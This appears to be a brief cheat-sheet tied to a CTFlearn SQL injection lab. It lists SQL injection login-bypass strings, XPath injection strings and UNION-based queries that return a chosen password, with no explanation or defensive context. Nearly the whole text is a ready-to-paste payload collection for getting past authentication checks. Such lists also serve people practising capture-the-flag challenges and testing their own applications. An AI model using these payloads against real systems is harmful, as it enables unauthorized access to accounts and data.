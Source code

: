 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
" or 1=1 --
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
